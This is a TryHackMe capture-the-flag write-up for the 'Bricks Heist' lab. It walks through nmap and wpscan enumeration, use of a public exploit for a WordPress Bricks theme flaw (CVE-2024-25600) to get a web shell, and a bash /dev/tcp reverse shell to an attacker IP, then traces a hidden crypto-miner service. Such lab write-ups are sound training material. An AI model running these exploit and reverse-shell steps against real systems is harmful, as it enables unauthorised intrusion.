 # 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
Pro tip: scan for all open port then to a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
![nmap](screenshots/nmap1.png)  
![nmap](screenshots/nmap2.png)   
Open PORTS: 22, 80, 443  

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts
![web](screenshots/web1.png)  
![web](screenshots/web2.png) 
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
![wpscan](screenshots/wp1.png)  
![wpscan](screenshots/wp2.png)  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:![CVE-2024-25600.py](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
![apacheshell](screenshots/apaches.png)  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
![service](screenshots/service.png)  
3.Sus Process  
```bash
systemctl status <service name>
```
![process](screenshots/process.png)  
4. Log file  
```bash
cd /lib/NetworkManager
```
![miner](screenshots/miner.png)  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;
![adress](screenshots/adress1.png) 
![adress](screenshots/adress2.png)  
6.Threat Group  
Researching about the bc wallet address on google + chatGPT











